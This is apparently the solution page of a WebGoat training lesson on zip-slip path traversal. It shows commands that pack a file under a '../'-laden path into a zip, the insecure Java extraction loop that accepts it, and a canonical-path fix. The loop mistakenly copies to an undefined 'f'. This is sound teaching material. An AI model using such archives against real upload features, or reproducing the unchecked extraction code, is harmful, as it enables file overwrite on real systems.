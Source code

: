 === Solution

First, let's create a zip file with an image inside:

[source, subs="macros"]
----
curl -o webwolf.jpg webWolfRootLink:images/wolf.png[noLink, target=images/wolf.png]
zip profile.zip webwolf.jpg
----

Now let's upload this as our profile image. We can see nothing happens as mentioned in the assignment there is a bug in the software, and the result we see on the screen is:

[source]
----
Zip file extracted successfully failed to copy the image. Please get in touch with our helpdesk.
----

Let's create a zip file that traverses to the top and then back into the given directory in the assignment.

First, create the directory structure:

[source, subs="macros"]
----
mkdir -p webGoatTempDir:temppath[]PathTraversal/username:user[]
cd webGoatTempDir:temppath[]PathTraversal/username:user[]
curl -o username:user[].jpg webWolfRootLink:images/wolf.png[noLink, target=images/wolf.png]
zip profile.zip ../../../../../../../..webGoatTempDir:temppath[]PathTraversal/username:user[]/username:user[].jpg
----

Now, if we upload this zip file, it solves the assignment.

=== Why did this work?

In the code, the developers used the following fragment:

[source%linenums]
----
ZipFile zip = new ZipFile(uploadedZipFile);
Enumeration<? extends ZipEntry> entries = zip.entries();
while (entries.hasMoreElements()) {
  ZipEntry e = entries.nextElement();
  File profilePicture = new File(uploadDirectory, e.getName());
  InputStream is = zip.getInputStream(e);
  Files.copy(is, f.toPath(), StandardCopyOption.REPLACE_EXISTING);
}
----

The fix is to make sure the resulting file in line 5 resides in the directory you expect. Same as with the path traversal mitigation, use `profilePicture.getCanonicalPath()` to ensure the path is the same as you expect it to be.
